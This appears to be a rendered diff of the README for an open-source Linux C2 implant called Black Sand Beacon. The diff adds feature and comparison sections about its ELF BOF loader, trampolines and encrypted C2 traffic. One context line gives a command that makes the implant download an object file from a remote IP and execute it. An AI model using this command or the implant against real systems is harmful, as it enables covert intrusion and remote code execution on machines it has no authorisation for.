

Before and after one commit to grisuno/blacksandbeacon, a Markdown page: README.md, the part around the change. Shown at 98% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/README.md
+++ b/README.md
@@ -9,7 +9,35 @@ Black Sand Beacon — a lightweight, memory-resident micro beacon or implant for
 - Bof Execution
   - issue_command_to_c2 linux bof:https://10.10.14.57/whoami.x64.o
 
+## Linux ELF BOF Loader - First Native C Implementation
 
+**Background**: After implementing COFFLoader3 (Windows COFF with DJB2 hashing)
+and BlackBasalt C2, this represents the first fully native C implementation
+of a Cobalt Strike-style beacon for Linux with complete ELF BOF support.
+
+## Key Features
+- ✅ Native C (no Go/Rust runtime)
+- ✅ Full ELF relocation support (R_X86_64_64/32/PC32/PLT32)
+- ✅ Automatic trampoline generation for long jumps
+- ✅ System V ABI compliant (variadic function support)
+- ✅ Beacon API compatible (BeaconPrintf, BeaconOutput)
+- ✅ AES-256-CFB encrypted C2 communication
+
+## Technical Innovations
+1. **Trampoline Cache System**: Solves Linux address space challenges
+2. **Stack Alignment**: Proper handling of movaps/variadic functions
+3. **Symbol Resolution**: Dynamic symbol table with fallback
+
+## Credits
+- Inspired by TrustedSec's COFFLoader (Windows)
+- Built upon experience with COFFLoader3 and BlackBasalt beacon
+
+## Comparison
+| Feature | This Project | Sliver | Mythic | CrossC2 |
+|---------|--------------|--------|--------|---------|
+| Language | C (native) | Go | Rust | Closed |
+| Open Source | ✅ | ✅ | ✅ | ❌ |
+| Standalone | ✅ | ✅ | ✅ | Needs CS |
 
 ## 📱 System Architecture
 Black Sand Beacon is a modular C2 agent with a layered architecture consisting of:
```
